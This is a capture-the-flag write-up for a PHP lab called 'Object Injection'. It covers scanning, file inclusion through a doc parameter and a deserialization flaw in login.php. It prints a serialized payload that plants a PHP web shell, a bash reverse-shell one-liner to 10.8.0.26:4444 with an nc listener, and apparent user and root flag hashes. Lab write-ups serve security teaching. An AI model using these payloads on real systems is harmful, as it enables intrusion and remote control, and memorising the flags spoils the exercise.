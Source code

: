 # Object Injection

>## Difficulty: HARD
>#### user bfad4066a5baf52ea451e731fdf43aaa
>#### root 5704bd37d19e605f33f21d9a4e0a9d7b 

## Description
API service without good management of sessions saved to file, allowing deserialization.


## Technical description
Web API vulnerable to deserialization, files of interest can be found thanks to a Web Content Scanner with common wordlists (e.g gobuster,common.txt). Through docs.php an attacker can get an LFI (Local File Inclusion), thanks to lfi read the source code of the Web Api. From the register.php, understood the code flow, the attacker can be able to do an object injection and create a file in order to obtain a web shell. Read the user flag, overwriting the file in the /var/tmp folder owned by root and executed by a cron job the attacjer can get a root shell and able to read the root flag.

## Writeup

Nmap scan reveral Apache running on port 80.
![nmap](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/nmap.png)

> `-sC default scripts`

> `-sV service version`
Using gobuster with common.txt wordlist and php extension filter it's possible found the following files.
* /index.php
* /login.php
* /register.php 
* /docs.php
![gobuster](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/gobuster.png)
![gobuster2](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/gobuster2.png)


Docs's page shows the following message.

`This is an example. We need to provide more documentation. If you want to read a specific documentation page, use the doc parameter. Thank you 145`

Using the `doc` GET parameter an attacker could be able to obtain an LFI (Local file inclusion) and read the source code.

![register](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/register.png)
![register2](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/register2.png)

Retrieved the source code of the above files, the attacker can be able to find the deserialization vulnerability in login.php line 29 `$user_line = unserialize($line[0]);`.

Executing several registrations with a POST request with the following content

- username `username \n*12 <?php echo system($_GET['cmd']) ?>`
- password `A";s:3:"log";b:1;s:4:"path";s:23:"/var/www/html/pwned.php";s:1:"a";s:1:"b";`

and failing the consecutive login attemps, an attacker could be able to obtain a web shell.


At http://machineip/pwnwed.php the attacker interact with the webshell.

![cmd](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/cmd.png)


Command to open the reverse shell `/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.26/4444 0>&1'`
Attacker machine `nc -l 4444`


![curl](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/curl.png)


In the screenshoot the command is URL encoded `%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.0.26%2F4444%200%3E%261%27`

![revers](https://github.com/Arkango/pwnx_writeup/raw/main/object_injection/images/revers.png)
